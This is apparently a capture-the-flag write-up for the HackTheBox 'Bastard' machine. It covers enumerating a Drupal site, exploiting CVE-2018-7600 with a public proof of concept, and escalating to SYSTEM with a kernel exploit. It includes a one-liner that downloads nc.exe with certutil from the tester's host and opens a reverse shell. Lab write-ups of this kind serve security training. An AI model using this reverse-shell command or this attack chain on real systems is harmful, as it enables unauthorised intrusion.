 ```yaml
---
layout: page
title: Bastard - HackTheBox
permalink: /posts/ctf/hackthebox/bastard.html
---
```


# Bastard - HackTheBox
----

First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 10.10.10.9`

![image](https://user-images.githubusercontent.com/50459517/109316892-b0262880-7811-11eb-9771-9817052562f6.png)

We have a few ports open but port 80 looks the most interesting.  Lets check it out.

![image](https://user-images.githubusercontent.com/50459517/109316932-b9af9080-7811-11eb-9e52-a28ac443c78b.png)

Looks like we have a Drupal page running, I like to run **doopescan** when I come across a Drupal site first but keep in mind the scan takes a while to finish.  I did some default passwords and basic enumeration while waiting but didn't find much so decided to wait for the results from **doopescan**

`droopescan scan drupal -u http://10.10.10.9`

![image](https://user-images.githubusercontent.com/50459517/109316957-c338f880-7811-11eb-8bb7-7defbaf4801a.png)

Now that we have a version, lets research and see if we can find a public exploit available.  I found an exploit for RCE in the Services module that I started to try however found another vulnerability in CVE-2018-7600 that seemed to be an easier path. Here is the Service module exploit.

[](https://www.exploit-db.com/exploits/41564)

Here is the PoC I used for CVE-2018-7600.  

[https://github.com/pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

Pretty straight forward exploit, Lets try it out.

![image](https://user-images.githubusercontent.com/50459517/109316992-cd5af700-7811-11eb-9bc0-e826f9cbf00c.png)

Looks like we have code execution!  Lets see if we can get a shell now.  I hosted up **nc.exe** and downloaded/executed it with this one liner to get a shell on the machine.

`certutil -urlcache -f [http://10.10.14.31/nc.exe](http://10.10.14.31/nc.exe) nc.exe & nc.exe -e cmd.exe 10.10.14.31 53`

![image](https://user-images.githubusercontent.com/50459517/109317012-d64bc880-7811-11eb-970b-5802dfbd5d4f.png)

![image](https://user-images.githubusercontent.com/50459517/109317029-de0b6d00-7811-11eb-9574-4e6da03539ad.png)

We are in.  I copied WinPEAS over but couldn't get the executable to run, probably a .NET issue.  I ran the .bat version but didn't find much so decided to run WinPrivChecker and found a number of possible kernel exploits.  I like abatchy17's GitHub collection of kernel exploits found here..

[https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)

![image](https://user-images.githubusercontent.com/50459517/109317053-e794d500-7811-11eb-9073-7a842cf70d9c.png)

I went through some of these and found that MS10-059.exe worked great for getting a reverse shell as System!

![image](https://user-images.githubusercontent.com/50459517/109317082-f11e3d00-7811-11eb-95bb-968dbf721bb1.png)

![image](https://user-images.githubusercontent.com/50459517/109317099-f8dde180-7811-11eb-8d41-4ce0566a8aee.png)
